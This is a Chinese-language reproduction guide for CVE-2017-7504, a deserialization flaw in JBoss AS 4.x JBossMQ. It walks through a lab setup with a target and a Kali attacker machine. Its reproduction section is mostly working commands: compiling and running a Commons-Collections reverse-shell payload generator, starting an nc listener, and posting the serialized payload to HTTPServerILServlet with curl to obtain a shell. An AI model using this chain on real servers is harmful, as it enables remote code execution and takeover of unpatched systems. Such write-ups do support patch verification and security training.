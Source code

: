 （CVE-2017-7504）JBoss 4.x JBossMQ JMS 反序列化漏洞
===================================================

一、漏洞简介
------------

JBoss AS 4.x及之前版本中，JbossMQ实现过程的JMS over HTTP Invocation
Layer的HTTPServerILServlet.java文件存在反序列化漏洞，远程攻击者可借助特制的序列化数据利用该漏洞执行任意代码。

二、漏洞影响
------------

JBoss AS 4.x及之前版本

三、复现过程
------------

win7一台，ip为172.26.1.127（靶机，安装了java环境）

kali一台，ip为192.168.1.192(攻击机)

输入<http://172.26.1.127:8080/jbossmq-httpil/HTTPServerILServlet>，如果显示下图，则可能存在漏洞

![](resource/(CVE-2017-7504)JBoss4.xJBossMQJMS反序列化漏洞/media/rId25.png)

进入kali攻击机，下载反序列化工具:<https://github.com/ianxtianxt/CVE-2015-7501/>

解压完，进入到这个工具目录 ,执行命令:

> 继续执行命令:

    javac -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap.java
    java -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap 192.168.1.192:4444（IP是攻击机ip,4444是要监听的端口)

新界面开启nc准备接收反弹过来的shell。命令:nc -lvnp 4444

这个时候在这个目录下生成了一个ReverseShellCommonsCollectionsHashMap.ser文件，然后我们curl就能反弹shell了，执行命令:

    curl http://172.26.1.127:8080/jbossmq-httpil/HTTPServerILServlet --data-binary @ReverseShellCommonsCollectionsHashMap.ser 

![](resource/(CVE-2017-7504)JBoss4.xJBossMQJMS反序列化漏洞/media/rId27.png)

回到nc界面，发现shell已经反弹回来了

![](resource/(CVE-2017-7504)JBoss4.xJBossMQJMS反序列化漏洞/media/rId28.png)
